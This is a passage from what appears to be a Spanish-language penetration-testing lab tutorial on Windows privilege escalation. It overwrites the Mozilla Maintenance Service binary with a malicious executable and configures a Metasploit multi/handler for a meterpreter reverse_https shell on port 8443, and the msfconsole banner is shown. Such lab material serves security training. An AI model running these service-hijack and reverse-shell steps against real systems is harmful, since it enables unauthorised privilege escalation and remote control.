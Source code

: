 ### Replacing File with Malicious Binary

Podemos sobrescribir el binario **maintenanceservice.exe** en `c:\Program Files (x86)\Mozilla Maintenance Service` con una buena copia de trabajo de nuestro binario malicioso creado anteriormente antes de proceder a iniciar el servicio. En este ejemplo, descargamos dos copias del binario malicioso en `C:\Users\htb-student\Desktop`, **maintenanceservice.exe** y **maintenanceservice2.exe**. Vamos a mover la buena copia que no fue corrompida por el **exploit** **maintenanceservice2.exe** al directorio de **Program Files**, asegurándonos de renombrar el archivo correctamente y eliminar el **2** o el servicio no se iniciará. El comando **copy** solo funcionará desde una ventana de **cmd.exe**, no desde una consola de **PowerShell**.

```r
C:\htb> copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

        1 file(s) copied.

```

### Metasploit Resource Script

A continuación, guarda los comandos a continuación en un archivo **Resource Script** nombrado **handler.rc**.

```r
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```

### Launching Metasploit with Resource Script

Lanza **Metasploit** usando el archivo **Resource Script** para precargar nuestras configuraciones.

```r
sudo msfconsole -r handler.rc 
                                                 

         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1123 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

```